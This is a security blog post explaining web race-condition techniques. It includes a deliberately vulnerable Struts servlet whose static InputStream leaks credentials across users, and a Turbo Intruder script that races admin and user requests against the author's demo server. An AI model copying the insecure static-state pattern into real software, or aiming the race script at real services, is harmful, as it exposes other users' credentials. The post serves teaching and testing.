


### Introduction

Few weeks before, I was working on java source code analysis and found a race condition. Initially the finding felt inconsequnetial, but after a working POC I was able to prove the impact of the bug.

This posts will cover both my thoughts and approach to race condition bugs[specifically to web] and how was I able to exploit it. I am sure AI can write exploit for these bugs easily but understanding what is happening under the hood can help gain deeper insights of the bug and troubleshoot the payload more efficiently.


### Race condition

Race condition is one of the complicated bug in application security. Most Linux, browser and kernel based CVEs uses race condition, but in scope of web security it is often overlooked. It doesn't have specific category in OWASP top 10. It is often considered as `business logic flaws`. Portswigger [labs](https://portswigger.net/web-security/race-conditions) has well documented black box approach to this. These are the techniques explained from [hacktricks](https://hacktricks.wiki/en/pentesting-web/race-condition.html#http2-single-packet-attack-vs-http11-last-byte-synchronization)

 - HTTP/1.1 last-byte synchronization technique 
    sending most part of packets like header and body contents and holding the last byte in each packet and fire the request when all packets are ready.

 - HTTP/2 single-packet attack
    Since HTTP/2 supports multiple HTTP requests in a single TCP connection, sending simultaneous requests within small window to trigger race condition.

 - HTTP/3 Last frame synchroniztion
    HTTP/3 uses QUIC over UDP for data transmission. Single Packet Attack by last frame synchronization. [H3spacex](https://github.com/nxenon/h3spacex) has lab and QUIC frame control library for easier exploitation.  


### Types and techniques

This section I mainly need to cover the types of attack explained in portswigger labs. 

- **Limit overrun**: This is perfect for testing againt features like coupon code redemption, like count incrementer or any actions which a normal user should apply once. Inserting Multiple requests in new tab group in burp repeater and use `Send group in parallel` to cause uncontrollable sequence. Burp will decide last byte synchronization or single packet attack depending upon the HTTP version.

Example bug: [Race Condition for Access Token](https://hackerone.com/reports/55140) 

- **Race condition using turbo intruder**: In this lab we are introduced with turbo intruder where we are provided python scripting interface to manipulate the request/response. Turbo intruder provides simple interface to modify request params along with script file. These are some turbo intruder [sample](https://github.com/PortSwigger/turbo-intruder/tree/master/resources/examples) scripts. In this lab we use [single packet attack](https://github.com/PortSwigger/turbo-intruder/blob/master/resources/examples/race-single-packet-attack.py) script in turbo intruder to bypass login bruteforce. For each login attempt there is cooldown period from server so we tried set of 5-6 password attempts in each turbo intruder request.


- **Mutli and single endpoint race condition**

`Single endpoint` race condition is simpler than multi endpoint race condition. The difference being that single endpoint may perform multiple actions and when the race is timed perfectly it can cause request being handled in different scope in race window.  

{:style="display:block; margin-left:auto; margin-right:auto;width=50%;height=70%"}

Common scenarios include export endpoint where the exposed `/export` API can call internal microservice for export or Invitation flow where registration endpoint triggers email sending as separate workflow. 


`Multi endpoint` race condition is more difficult to exploit as the race window between each requests should be timed perfectly. The lab environment provided by portswigger demonstrates a situation where balance is checked and adding more expensive item to cart just before the cart is checked out. This is classic TOCTOU[Time-of-check to Time-of-use] vulnerability. 

The methodology described by portswigger is Predict, Probe and Prove. Predicting security critical endpoints and if there is collision possible. Probe the endpoints and understand the nature of response - the labs introduces us to add inconsequential request [index page] of the target in the flow to make the subsequest request's response time similar. This way the first request will be incosequential request followed by mutli endpoints which is affected by race condition to minimize the race window. And finally prove the concept and escalate the severity. [Smashing the state machine](https://portswigger.net/research/smashing-the-state-machine) research blog explains all this in detail.


- **Time sensitive attacks**

This is more common finding in any SAST tools when for any cryptographic functions if the seed uses current time or any constant value which can cause multiple request to same output. In order to validate the finding send the two similar requests simultaneously/parallely and investigate the response time or response token. Once found it is possible to exploit the same for two distinct requests and the reponse token/secret would be same for both the requests.


### The Vulnerability

Race condition can occur when program depends on uncoordinated timing or sequence, shared mutable state, instantiating threadlocal variable and not clearing it, concurrency and many more. Here I have configured struts to look for `inputName` inputstream as response.


```xml
<action name="credential" class="org.example.demo.CredentialServlet" method="fetchCreds">
   <result name="success" type="stream">
         <param name="contentType">application/json</param>
         <param name="inputName">inputStream</param>
   </result>
</action>
```

The Servlet fetches credentials depending upon the id. Since this is demo setup I haven't added any authN checks or thresholds. The setup is simple

 - If requesting id is 1, admin credential will be served.
 - If requesting id is other than 1, normal user credenial will be served.

The important takeaway is under heavy traffic time, this race condition allows cross user response access.

```java

public class CredentialServlet {
    private static  InputStream inputStream;
    private int id;

   
    @StrutsParameter
    public void setId(int id) {
        this.id = id;
    }

   // GET http://server/credential.action?id=1
    public String fetchCreds() {
        JSONObject response = new JSONObject();
        User u = new User().getUser(id);
        response.put("name", u.getName());
        response.put("password", u.getPassword());
        response.put("STATUS", 200);

        inputStream = new ByteArrayInputStream(
                response.toString().getBytes(StandardCharsets.UTF_8));

        return Action.SUCCESS;
    }

    public InputStream getInputStream() {
        return inputStream;
    }
}
```
{: file='CredentialServlet.java'}


```java
public class User {
   // constructors, getters and setters ...

   public User getUser(int id){
      if(id == 1){
         return new User(1, "Admin","Admin-Password");
      } else {
         return new User(2, "foobar","foobar-Password");
      }
   }
}
```
{: file='User.java'}


### Exploitation

To demonstrate this, I have modified [single-packet-attack.py](https://github.com/PortSwigger/turbo-intruder/blob/master/resources/examples/race-single-packet-attack.py), user `Engine.THREADED` since the HTTP version 1 is used. The `CONCURRENT_CONNECTIONS` count is maximum number of connection the gate can open and we are running 200 iterations with 2 different request requests trying to race in same window. 


```python
ITERATIONS = 200
CONCURRENT_CONNECTIONS = 30


ACCOUNTS = {
    "userA": {
        "id": "1",
    },
    "userB": {
        "id": "2",
    },
}

PATH_TEMPLATE = "/demo_war_exploded/credential.action?id={id}"


def build_request(account,gate):
    path = PATH_TEMPLATE.format(id=account["id"])
    return (
        "GET " + path + " HTTP/1.1\r\n"
        "Host: 192.168.0.107:8000\r\n"
        "Connection: close\r\n"
        "Gate: " + gate + "\r\n"
        "\r\n"
    )


def queueRequests(target, wordlists):
    engine = RequestEngine(
        endpoint=target.endpoint,
        concurrentConnections=CONCURRENT_CONNECTIONS,
        engine=Engine.THREADED,
    )

    # reqA = build_request(ACCOUNTS["userA"])
    # reqB = build_request(ACCOUNTS["userB"])


    for i in range(ITERATIONS):
        gate = str(i)
        reqA = build_request(ACCOUNTS["userA"],gate+"-A")
        reqB = build_request(ACCOUNTS["userB"],gate+"-B")
        engine.queue(reqA, gate=gate,label=gate)
        engine.queue(reqB, gate=gate,label=gate)
        engine.openGate(gate)

    engine.complete(timeout=60)


def handleResponse(req, interesting):
    try:
        body = req.response or ""
    except Exception as e:
        body = ""
        print("Exception:  (%s)" % e)

    has_a = "Admin" in body
    has_b = "foobar" in body

    if "Admin" in body and "id=2" in req.request:
        # adding this request alone to the table
        try:
            print(req.label)
            table.add(req)
        except Exception as e:
            print("table.add failed: %s" % e)

```
{: file='poc.py'}

{:style="display:block; margin-left:auto; margin-right:auto;width=50%;height=70%"}


### Analysis

For analysis I have added interceptor to log request start, end and elapsed time along with gate identifier which is added as header in request. 

```java
public class RequestInterceptor extends AbstractInterceptor {
    @Override
    public String intercept(ActionInvocation invocation) throws Exception {

        HttpServletRequest request =
                ServletActionContext.getRequest();

        String gate = request.getHeader("Gate");
        long startTime = System.currentTimeMillis();

        try {
            return invocation.invoke();
        } finally {
            long endTime = System.currentTimeMillis();
            System.out.println("Gate: " + gate + " -- " + "Start time: "+startTime+ " ms" + " -- " + "End time: " + endTime + " ms" + " -- " +"Elapsed time: "
                    + (endTime - startTime) + " ms");
        }
    }
}
```
{: file='RequestInterceptor.java'}

The interceptor output suggests that the when processing `49-A Admin request` request the server received request `50-B normal request`. From the time analysis we can confirm that both request got served at exact time leading to cross user leak.   

```bash
Gate: 50-A -- Start time: 1792587230539 ms -- End time: 1792587230541 ms -- Elapsed time: 2 ms
Gate: 49-A -- Start time: 1792587230538 ms -- End time: 1792587230541 ms -- Elapsed time: 3 ms
Gate: 50-B -- Start time: 1792587230538 ms -- End time: 1792587230541 ms -- Elapsed time: 3 ms
```

The entire application is hosted at [github](https://github.com/grep-user/race-conditon-poc), do check it out.

### Conclusion

What looked like insignificant finding but as I digged deeper the impact became huge. This is a decade old [problem](https://stackoverflow.com/questions/7026507/why-are-static-variables-considered-evil), but still it can be found in large and complex code bases. If time I will explore more on the modern version of this bug class researched by [James Kettle from Portswigger](https://portswigger.net/research/smashing-the-state-machine).

### References

[https://portswigger.net/blog/new-techniques-and-tools-for-web-race-conditions](https://portswigger.net/blog/new-techniques-and-tools-for-web-race-conditions)
[https://portswigger.net/research/smashing-the-state-machine](https://portswigger.net/research/smashing-the-state-machine)

[https://portswigger.net/research/the-single-packet-attack-making-remote-race-conditions-local](https://portswigger.net/research/the-single-packet-attack-making-remote-race-conditions-local)
[https://hackerone.com/reports/55140](https://hackerone.com/reports/55140)